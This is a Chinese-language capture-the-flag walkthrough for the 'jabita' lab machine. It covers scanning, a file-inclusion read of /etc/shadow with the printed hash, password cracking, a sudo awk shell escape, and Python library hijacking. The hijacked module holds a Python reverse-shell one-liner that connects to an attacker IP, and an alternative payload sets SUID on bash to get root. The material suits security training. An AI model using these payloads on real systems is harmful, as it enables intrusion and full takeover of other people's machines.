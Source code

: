 
|   |   |   |
|---|---|---|
|jabita|easy|文件包含利用、shadow爆破、sudo-awk 提权、python库劫持提权、python反弹shell|

# 主机发现
```C
┌──(kali㉿kali)-[~]
└─$ sudo netdiscover -i eth0 -r 192.168.44.139/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.147 
```
22,  80

# 目录扫描
```c
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.44.147 -x php,html.txt.png -e
```

```c
http://192.168.44.147/building   
在这个页面随便点个home
发现这个页面可能存在文件包含http://192.168.44.147/building/index.php?page=home.php
初次尝试得到结果
http://192.168.44.147/building/index.php?page=/etc/shadow


jaba:$y$j9T$pWlo6WbJDbnYz6qZlM87d.$CGQnSEL8aHLlBY/4Il6jFieCPzj7wk54P8K4j/xhi/1:19240:0:99999:7::: 
```
# john爆破

爆破n万年
```c
账号：jack
密码：joaninha
```


# 提权

```c
jack@jabita:~$ sudo -l
    (jaba : jaba) NOPASSWD: /usr/bin/awk 
```

然后去这个网站搜索相关命令getshell，，，awk
[GTFOBins](https://gtfobins.github.io/)

```c
sudo awk 'BEGIN {system("/bin/sh")}'
```

```c
jack@jabita:~$ sudo -u jaba  /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)

$ script /dev/null -c bash
jaba@jabita:/home/jack$ sudo -l
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
```
查看这个文件为root 权限，该脚本导入了wild 模块，执行后调用first()方法，输出一个hello。
我们搜索该模块，查看模块内容如下
```c
jaba@jabita:/home/jack$ cat /usr/bin/clean.py 
import wild

wild.first()
jaba@jabita:/home/jack$ ls -all /usr/bin/clean.py 
-rw-r--r-- 1 root root 26 Sep  5  2022 /usr/bin/clean.py
jaba@jabita:/home/jack$ /usr/bin/python3 /usr/bin/clean.py
Hello
jaba@jabita:/home/jack$ find / -type f -name "wild.py" 2>/dev/null
/usr/lib/python3.10/wild.py
jaba@jabita:/home/jack$ cat /usr/lib/python3.10/wild.py
def first():
        print("Hello")
jaba@jabita:/home/jack$ ls -all /usr/lib/python3.10/wild.py
-rw-r--rw- 1 root root 29 Sep  5  2022 /usr/lib/python3.10/wild.py
```
## python库劫持
我们对改文件具有修改的权限，因此可以尝试python库劫持进行提取
那么接下来我们可以使用python反弹一个shell,代码如下
```c
import os
def first():
	os.system("python3 -c \"import       os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.44.128',9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"")
```

```c
jaba@jabita:/home/jack$ sudo -u root /usr/bin/python3 /usr/bin/clean.py
```

实战中，如果机器不出网，我们可以修改该脚本的内容，让它可以使用 SUID 执行 bash。或者直接创建一个root权限的账号。

```c
import os
def first():	
	os.system("chmod u+s /bin/bash")
```

```c
find / -perm -u=s -type f 2>/dev/null


jaba@jabita:/home/jack$ bash -p
bash-5.1# whoami
root
```

```
bash-5.1# cat user.txt 
2e0942f09699435811c1be613cbc7a39
bash-5.1# cat root.txt 
f4bb4cce1d4ed06fc77ad84ccf70d3fe
```